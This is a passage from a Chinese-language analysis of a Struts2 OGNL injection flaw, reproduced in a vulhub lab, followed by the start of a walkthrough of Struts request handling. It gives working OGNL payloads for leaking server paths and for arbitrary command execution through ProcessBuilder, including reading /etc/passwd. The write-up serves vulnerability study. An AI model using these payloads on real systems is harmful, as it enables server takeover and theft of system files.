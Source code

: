 在translateVariables方法中，递归解析表达式，在处理完%`{`password`}`后将password的值直接取出并继续在while循环中解析，若用户输入的password是恶意的ognl表达式，则得以解析执行。

按照vulhub的提示，我们可以使用如下命令获取tomcat执行路径：

```
%`{`"tomcatBinDir`{`"+@java.lang.System@getProperty("user.dir")+"`}`"`}`
```

[![](https://p2.ssl.qhimg.com/t0104173778815eefcd.png)](https://p2.ssl.qhimg.com/t0104173778815eefcd.png)

重新渲染后，password字段已经变为执行结果。

[![](https://p4.ssl.qhimg.com/t01c412c8874486d3da.png)](https://p4.ssl.qhimg.com/t01c412c8874486d3da.png)

相应的可以执行其他命令，这里不过多展示。

获取Web路径：

```
%`{`#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()`}`
```

执行任意命令（命令加参数：`new java.lang.String[]`{`"cat","/etc/passwd"`}``）：

```
%`{`#a=(new java.lang.ProcessBuilder(new java.lang.String[]`{`"pwd"`}`)).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()`}`
```

### <a class="reference-link" name="%EF%BC%88%E4%B8%89%EF%BC%89%E8%B0%83%E8%AF%95"></a>（三）调试

[Struts运行流程](https://www.jianshu.com/p/99705a8ad3c3)如下：

**1.用户发出请求**<br>
Tomcat接收请求，并选择处理该请求的Web应用。

**2.web容器去相应工程的web.xml**<br>
在web.xml中进行匹配，确定是由struts2的过滤器FilterDispatcher(StrutsPrepareAndExecuteFilter)来处理，找到该过滤器的实例(初始化)。

**3.找到FilterDispatcher,回调doFilter()**<br>
通常情况下，web.xml文件中还有其他过滤器时，FilterDispatcher是放在滤器链的最后；如果在FilterDispatcher前出现了如SiteMesh这种特殊的过滤器，还必须在SiteMesh前引用Struts2的ActionContextCleanUp过滤器。

**4.FilterDispatcher将请求转发给ActionMapper**<br>
ActionMapper负责识别当前的请求是否需要Struts2做出处理。

**5.ActionMapper告诉FilterDispatcher，需要处理这个请求，建立ActionProxy**<br>
FilterDispatcher会停止过滤器链以后的部分，所以通常情况下：FilterDispatcher应该出现在过滤器链的最后。然后建立一个ActionProxy对象，这个对象作为Action与xwork之间的中间层，会代理Action的运行过程.

**6.ActionProxy询问ConfigurationManager,读取Struts.xml**<br>
ActionProxy对象询问ConfigurationManager问要运行哪个Action。ConfigurationManager负责读取并管理struts.xml的（可以理解为ConfigurationManager是struts.xml在内存中的映像）。在服务器启动的时候，ConfigurationManager会一次性的把struts.xml中的所有信息读到内存里，并缓存起来，以保证ActionProxy拿着来访的URL向他询问要运行哪个Action的时候，就可以直接查询。
